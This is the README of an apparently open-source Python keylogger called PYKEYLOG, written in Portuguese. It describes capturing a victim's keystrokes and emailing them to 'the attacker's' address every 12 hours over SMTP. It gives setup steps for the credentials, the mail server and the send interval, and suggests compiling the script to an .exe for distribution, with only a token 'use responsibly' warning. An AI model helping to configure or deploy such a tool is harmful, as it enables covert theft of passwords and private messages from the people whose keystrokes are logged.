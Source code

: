 <h1 align="center"> PYKEYLOG </h1>
Keylogger em Python, feito da forma mais simples possível para copiar as teclas pressionadas e enviar a cada 12 horas para o e-mail do atacante.
# Como usar:

Altere: 
```
EMAIL_ADDRESS = "youremail@example.com"
``` e
```EMAIL_PASSWORD = "yourpassword"
```
Altere também na linha 34: server = smtplib.SMTP(host="smtp-mail.outlook.com", port=587) - para o smtp e porta do email que você for usar
Você também pode alterar o intervado de tempo que o e-mail será enviado com as teclas pressionadas em: SEND_REPORT_EVERY = 43200  # (seconds)
No meu caso, para não ficar chegando muitos emails, coloquei para receber a cada 12 horas. Use sempre em segundos.

# Lembre-se:
Importar as bibliotecas:
smtplib
pynput
threading
email.mime.text

## USE COM RESPONSABILIDADE!

# Transformar em .exe
Após a finalização do script, utilizei auto_py_to_exe para transformar o arquivo py em exe.
Enjoy
